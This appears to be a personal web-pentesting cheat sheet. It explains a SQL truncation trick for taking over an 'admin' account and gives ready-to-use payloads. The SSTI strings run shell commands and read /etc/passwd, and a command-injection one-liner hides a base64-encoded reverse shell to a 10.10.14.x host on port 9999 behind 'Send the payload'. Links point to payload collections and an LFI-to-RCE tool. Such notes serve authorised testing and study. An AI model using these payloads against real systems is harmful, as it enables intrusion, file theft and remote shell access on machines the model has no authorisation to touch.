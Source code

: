 
## SQL Truncation

SQL truncation is a flaw in the database configuration in which an input is truncated (deleted) when added to the database due to surpassing the maximum defined length. The database management system truncates any newly inserted values to fit the width of the designated column size.

So, where can we find this vulnerability ?? it can be found in any web application that allows users to sign up/register for new accounts.

If the database considers spaces as valid characters between inputs and doesn’t do any trimming before storing the values, an attacker can create a duplicate accounts of an existing user like ‘’admin’’ with many additional spaces and characters — ‘’admin++++++random’’ that are too long to be stored in the specified column and gets deleted after passing the max length.

So, instead of storing “admin++++++random’’ as an entry, the database will truncate the second half to fit it in the column (‘’admin +++++’’).

Next time an attacker logs in to the application with the admin account, the database will search for all matching accounts and will consider them valid for logging in. Therefore any entry with username as admin with space or without is a valid entry that can be used to authenticate to the application.

“admin” == ‘admin +++++’


## Server Side Template Injection(SSTI)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#constructing-a-server-side-template-injection-attack)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [PayLoads 2](https://github.com/payloadbox/ssti-payloads)
- [YouTube](https://www.youtube.com/watch?v=Ce6FGus9UYk&ab_channel=BePractical)

### Payloads:
- `${{<%[%'"}}%\.`
- `{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}`
- `{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}` nodeJS

## COMMAND INJECTION
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
- `echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi85OTk5IDA+JjEK" | base64${IFS} -d | bash` Send the payload

## LOCAL FILE INCLUSION(LFI)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

  - ### LFI TO RCE:
    - `https://github.com/synacktiv/php_filter_chain_generator`

